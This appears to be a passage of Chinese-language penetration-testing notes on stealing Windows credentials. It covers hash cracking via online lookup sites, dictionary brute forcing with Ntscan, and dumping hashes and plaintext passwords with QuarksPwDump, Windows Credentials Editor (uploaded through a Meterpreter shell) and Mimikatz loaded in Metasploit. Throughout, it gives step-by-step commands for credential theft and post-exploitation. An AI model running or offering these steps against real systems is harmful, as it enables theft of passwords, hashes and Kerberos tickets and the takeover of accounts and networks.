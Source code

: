 暴力或彩虹表对Hash破解，推荐：http://www.cmd5.com和http://www.xmd5.com。

#### Ntscan

先制作字典，暴力破解字典：真空密码字典生成器，社会工程学字典：亦思社会工程学字典生成器

Ntscan爆破即可。

#### GetPass

只针对Win2003，运行即可。

#### Quarks PwDump

```bash
QuarksPwDump.exe -dhl -o 1.txt
```

在SAMInside中Import from PWDUMP File..打开即可。

#### Windows Credentials Editor

上传并查看已登录的明文密码：

```
upload /root/wce.exe c:\
shell
cd /
wce.exe -w
```

-w查看密码明文；-f强制安全方法读取，默认先安全后不安全，不安全方法会破坏系统；-g用系统使用的加密算法加密一个明文的密文；-c执行mcd；-v显示详细信息（LUID）。

#### Mimikatz

Win2000和WinXP下不好使。查看目标机架构为32位：

```
sysinfo
```

MSF自带，加载mimikatz模块：

```
load mimikatz
help mimikatz
```

试探Mimikatz大概使用方式：

```
mimikatz_command -f a:: #随便输入模块a，报错，查看所有模块
mimikatz_command -f hash:: #查看hash模块下选项
```

先使用自带命令获取系统信息：

```
msv #系统Hash
kerberos #抓取系统票据
wdigest #系统账户信息
```
